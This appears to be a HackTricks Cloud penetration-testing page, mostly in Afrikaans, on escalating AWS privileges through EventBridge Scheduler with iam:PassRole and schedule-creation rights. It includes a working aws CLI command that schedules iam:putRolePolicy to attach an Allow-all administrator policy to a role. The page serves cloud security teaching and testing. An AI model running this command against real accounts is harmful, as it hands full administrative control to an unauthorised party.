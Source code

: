 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler kan gebruik word vir privilige eskalasie deur oproepe na verskeie AWS dienste te skeduleer. Deur sy vermoë om dienste op 'n geskeduleerde basis aan te roep, kan gebruikers met voldoende regte privilige eskaleer. Hier is 'n paar van die sleutel aksies wat EventBridge Scheduler kan aktiveer met behulp van getemplaate teikens:

* Lambda: lambda:InvokeFunction - Roep Lambda funksies op 'n skedule aan.
* CodeBuild: codebuild:StartBuild - Begin AWS CodeBuild projekte.
* CodePipeline: codepipeline:StartPipelineExecution - Aktiveer AWS CodePipeline uitvoerings.
* ECS: ecs:RunTask - Voer ECS take uit.
* EventBridge: events:PutEvents - Plaas gebeurtenisse in EventBridge.
* Inspector: inspector:StartAssessmentRun - Begin Amazon Inspector assesserings.
* Kinesis: kinesis:PutRecord - Plaas rekords in Kinesis strome.
* Firehose: firehose:PutRecord - Plaas rekords in Firehose aflewering strome.
* SageMaker: sagemaker:StartPipelineExecution - Begin SageMaker pypaak uitvoerings.
* SNS: sns:Publish - Publiseer boodskappe na SNS onderwerpe.
* SQS: sqs:SendMessage - Stuur boodskappe na SQS rye.
* Step Functions: states:StartExecution - Begin uitvoerings van AWS Step Functions.

Dit is net 'n paar van die getemplaate aksies wat EventBridge Scheduler kan uitvoer. egter, deur universele teikens te gebruik, kan baie ander aksies oor AWS dienste geaktiveer word. Universele teikens stel meer uitgebreide API operasies moontlik buite die getemplaate lys.

Meer inligting oor EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Gebruikers met `sts:AssumeRole`, `iam:PassRole`, en `scheduler:CreateSchedule of scheduler:UpdateSchedule` regte kan privilige eskaleer deur die EventBridge Scheduler te benut om dienste aan te roep met 'n rol met hoër privilige.

Met hierdie regte kan 'n aanvaller 'n rol met verhoogde privilige aanvaar en daardie rol aan EventBridge Scheduler oorhandig wanneer 'n skedule geskep of opgedateer word. Die skedule kan gekonfigureer word om enige van die aksies wat vroeër gelys is, uit te voer, soos om Lambda funksies aan te roep, ECS take te begin, CodePipeline uitvoerings te aktiveer, of enige operasie van die 270 AWS dienste wat deur EventBridge Scheduler ondersteun word. Deur hierdie aksies te skeduleer, kan 'n aanvaller hoër privilige misbruik om ongeoorloofde operasies oor AWS dienste uit te voer. \\

Byvoorbeeld, hulle kan die skedule konfigureer om 'n Lambda funksie aan te roep wat 'n getemplaate aksie is:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
In addision to templated service actions, you can use universal targets in EventBridge Scheduler to invoke a wide range of API operations for many AWS services. Universal targets offer flexibility to invoke almost any API. One example can be using universal targets adding "AdminAccessPolicy", using a role that has "putRolePolicy" policy:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Verwysings

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
